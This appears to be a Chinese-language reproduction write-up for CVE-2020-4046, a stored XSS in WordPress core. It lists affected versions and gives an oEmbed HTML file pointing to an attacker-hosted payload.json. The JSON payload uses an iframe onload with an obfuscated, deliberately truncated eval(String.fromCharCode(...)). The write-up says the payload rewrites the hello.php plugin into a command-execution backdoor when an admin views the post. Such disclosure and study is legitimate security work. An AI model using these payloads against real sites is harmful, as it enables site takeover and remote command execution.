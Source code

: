 （CVE-2020-4046）WordPress 5.3.4 储型XSS
========================================

一、漏洞简介
------------

该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

WordPress
5.3.4版本，5.2.7版本，5.1.6版本，5.0.10版本，4.9.15版本，4.8.14版本，4.7.18，
4.6.19版本，4.5.22版本，4.4.23版本，4.3.24版本，4.2.28版本，4.1.31版本，4.0.31版本，3.9.32版本，3.8.34版本，3.7.34版本。

三、复现过程
------------

要利用该漏洞，攻击者需要在其自身的web服务器上托管两个文件（这些文件的内容将在后面显示）。为使漏洞利用正常进行，被攻击的目标服务器必须能访问攻击者web服务器以下载payload。虽然WordPress有健全的外部资源引用控制机制，但是此类安全设置将会阻止WordPress嵌入其它正常的URL，因此实际场景中开启此安全设置是比较少见的。我们基于`@g0blinResearch`师傅的文章生成payload。然后将payload中插件地址修改为`hello.php`（也就是`/wp-content/plugins/hello.php`），该插件为WordPress默认插件且可以访问，同时进行了其他一些小的改动。该payload使用`https://eve.gd/2007/05/23/string-fromcharcode-encoder/`在线工具进行编码，以避免各种转义问题。在此演示中，对应的`payload.htm`如下：

    <HTML>
            <HEAD>
                    <LINK type="application/json+oembed" href="http://attackbox1.pentest.co.uk/payload.json">
            </HEAD>
    </HTML>

`payload.json`部分如下，（没有给出完整的利用代码是为了避免漏洞在未修复前被恶意利用）：

    {
            "type":"rich",
            "html":"<blockquote><iframe title=' width=\"'></iframe></blockquote><iframe src='noexist' title='xxx' 
             height=' title=' width=\"'' onload='eval(String.fromCharCode(118,97,114,…))'\"></iframe>"
    }

现在，我们用至少具有`贡献者`权限的账户登录目标站点，随后创建一个帖子以嵌入我们payload：

![1.png](./resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId24.png)

管理员随后查看帖子时：

![2.png](./resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId25.png)![3.png](./resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId26.png)

我们的payload已执行，并且对应`/wp-content/plugins/hello.php`文件被编辑成允许我们执行任意系统命令：

![4.png](./resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7929
>
> https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
